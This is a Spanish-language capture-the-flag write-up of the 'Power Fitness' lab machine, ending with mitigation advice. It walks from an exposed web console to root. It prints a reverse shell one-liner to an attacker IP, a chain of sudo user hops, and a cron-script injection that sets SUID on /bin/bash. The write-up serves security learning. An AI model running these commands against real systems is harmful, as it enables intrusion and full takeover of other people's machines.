## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

---

## Resumen del Ataque

Power Fitness combina un **acceso inicial trivial** con una **cadena de escalada de privilegios en varias etapas**. El sitio web del gimnasio expone, sin ninguna protección, una consola de administración (`gym_console.php`) dentro de un directorio `/backend/` descubierto por fuzzing, la cual permite **ejecución remota de comandos (RCE)** directa. A partir de ahí se obtiene una reverse shell como `www-data`.

Desde ese punto, la escalada no ocurre por una única vulnerabilidad, sino por una **cadena de configuraciones `sudo` NOPASSWD encadenadas** entre cinco usuarios distintos (`www-data → trainer → coach → nutritionist`), cada uno autorizado a saltar como el siguiente sin contraseña. El salto final hacia `root` no proviene de `sudo`, sino de una **tarea cron que se ejecuta cada minuto como root** sobre un script Python (`/routines/stats.py`) editable por el usuario `nutritionist`. Al insertar `os.system("chmod u+s /bin/bash")` en el script y esperar a que el cron lo ejecute, se obtiene un `/bin/bash` con bit SUID activo, lo que permite invocar `bash -p` y obtener una shell como root de forma inmediata.

**Vector de compromiso:** RCE vía webshell expuesta → reverse shell → cadena de privilegios `sudo` mal configurada entre usuarios → escritura en script ejecutado por cron como root → SUID en `/bin/bash` → root.

---

## Técnicas Usadas

|Fase|Técnica|Herramienta|
|---|---|---|
|Reconocimiento|Escaneo de puertos completo (TCP SYN)|`nmap -p- -sS`|
|Reconocimiento|Detección de versión y servicio HTTP|`nmap -sC -sV`|
|Enumeración web|Descubrimiento de directorios ocultos por fuerza bruta|`dirsearch`|
|Enumeración web|Explotación de listado de directorios (Information Disclosure)|Navegador|
|Acceso inicial|Ejecución remota de comandos a través de webshell expuesta|`gym_console.php`|
|Acceso inicial|Obtención de reverse shell|`bash -i` + `/dev/tcp` + `nc`|
|Estabilización de shell|Mejora de TTY interactiva (PTY completo)|`script` + `stty raw -echo`|
|Post-explotación|Enumeración de usuarios del sistema|`/etc/passwd`|
|Escalada de privilegios|Explotación de cadena de permisos `sudo NOPASSWD` entre usuarios|`sudo -l` / `sudo -u <user> /bin/bash`|
|Escalada de privilegios|Identificación de tarea cron ejecutada como root|`/etc/crontab`|
|Escalada de privilegios|Modificación de script Python invocado por cron con permisos de escritura del usuario comprometido|Edición manual + `os.system()`|
|Escalada de privilegios|Obtención de shell privilegiada mediante bit SUID en binario|`chmod u+s /bin/bash` + `bash -p`|

---

## Desarrollo

### 1. Reconocimiento de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Detección de servicio

```
nmap -p 80 -sC -sV -oN allports 172.17.0.2
```



### 3. Enumeración web


Interfaz del gimnasio "Power Fitness" sin hallazgos relevantes en el código fuente.

```
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html
```



### 4. Descubrimiento de la webshell

```
http://172.17.0.2/backend/
```



Al acceder a `gym_console.php` se despliega una consola web con capacidad para ejecutar comandos del sistema directamente. Se valida con `id`.



### 5. Obtención de reverse shell

Desde la propia consola web se ejecuta:


```bash
bash -c 'bash -i &>/dev/tcp/192.168.241.128/1234 <&1'
```

Con un listener preparado previamente en la máquina atacante:

```bash
nc -lvnp 1234
```



### 6. Estabilización del TTY

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```
### 7. Enumeración de usuarios del sistema

```bash
grep bash /etc/passwd
```



### 8. Cadena de escalada vía sudo NOPASSWD

```bash
sudo -l
```



Se explota el primer eslabón:

```bash
sudo -u trainer /bin/bash
whoami
```



Se repite el patrón, encontrando que cada usuario tiene permiso `NOPASSWD` para convertirse en el siguiente de la cadena:

```
sudo -u coach /bin/bash
whoami
```



```
sudo -u nutritionist /bin/bash
whoami
```



Al llegar a `nutritionist`, `sudo -l` solicita contraseña — la cadena de saltos NOPASSWD termina ahí.

### 9. Identificación de vector cron

```bash
find / -perm -4000 -type f 2>/dev/null
```



Solo binarios SUID estándar, sin vectores explotables directos.

```bash
cat /etc/crontab
```



Una tarea ejecutada **cada minuto como root** ejecuta un script Python.

```bash
ls -la /routines/stats.py
```



El script pertenece al usuario ya comprometido (`nutritionist`), lo que permite editarlo directamente.

### 10. Explotación de la tarea cron

Se inserta una línea maliciosa en el script, que se ejecutará con privilegios de `root` en la siguiente iteración del cron:

python

```python
os.system("chmod u+s /bin/bash")
```

Tras esperar la ejecución automática de la tarea:

```bash
ls -l /bin/bash
```


El bit SUID (`s`) confirma que `/bin/bash` ahora se ejecuta con privilegios de su propietario (`root`) sin importar quién lo invoque.

### 11. Escalada final a root

```bash
bash -p
whoami
```



```
cd /root
cat flag.txt
```



**Flag:** `FLAG{P0w3r_F1tn3ss_Py7h0n_Cr0n_R00t_2026}`

---

## Lecciones Aprendidas

- **Una webshell sin autenticación en producción equivale a RCE inmediato.** No hizo falta ningún bypass ni payload elaborado: la consola estaba disponible para cualquiera que encontrara la ruta.
- **Las cadenas de `sudo` NOPASSWD entre usuarios son tan peligrosas como un único NOPASSWD mal configurado**, porque cada eslabón amplía la superficie de compromiso sin que ningún usuario individual parezca, por sí solo, tener privilegios críticos.
- **Los scripts invocados por cron como root heredan la confianza de quien los ejecuta, no de quien los posee.** Un archivo con propietario no-root pero ejecutado periódicamente por `root` es, en la práctica, una puerta de escalada de privilegios completa si ese propietario (o cualquiera con permisos de escritura) queda comprometido.
- **El bit SUID sobre un intérprete de comandos (`/bin/bash`) es de los vectores de escalada más directos que existen** — una vez aplicado, `bash -p` evita que bash abandone privilegios elevados, dando una shell root instantánea.
- **Priorizar `/etc/crontab` y `/etc/cron.d/` en cualquier enumeración post-explotación** cuando `sudo -l` y los binarios SUID no revelan un camino directo; los cron jobs de root son un vector recurrente en máquinas de dificultad fácil-media.

---

## Medidas de Mitigación

|Hallazgo|Riesgo|Recomendación|
|---|---|---|
|Consola de administración (`gym_console.php`) expuesta sin autenticación|Crítico|Eliminar cualquier webshell o consola de administración de entornos de producción; si es imprescindible, protegerla con autenticación fuerte, restricción por IP y nunca ubicarla en una ruta pública del webroot.|
|Ejecución remota de comandos disponible desde la interfaz web|Crítico|Nunca exponer funcionalidades de ejecución de comandos del sistema operativo desde una aplicación web; usar API controladas y validadas si se necesita esa funcionalidad.|
|Directory listing habilitado en `/backend/`|Alto|Deshabilitar `Options -Indexes` (Apache) para evitar exponer archivos no destinados al acceso público.|
|Cadena de permisos `sudo NOPASSWD` entre múltiples usuarios|Crítico|Auditar `/etc/sudoers` y eliminar cualquier regla NOPASSWD no estrictamente necesaria; nunca encadenar privilegios de usuario a usuario sin control explícito. Aplicar el principio de mínimo privilegio de forma granular.|
|Tarea cron de root ejecutando un script propiedad de un usuario no privilegiado|Crítico|Los scripts ejecutados por cron como root deben pertenecer a `root` y tener permisos de escritura restringidos exclusivamente a `root` (`chmod 700`, propietario `root:root`). Ningún usuario no privilegiado debería poder modificar código ejecutado con privilegios elevados.|
|Ausencia de monitorización de cambios en binarios críticos (bit SUID)|Medio|Implementar herramientas de integridad de archivos (`AIDE`, `auditd`) para detectar cambios de permisos inusuales en binarios del sistema, como la aparición inesperada del bit SUID en `/bin/bash`.|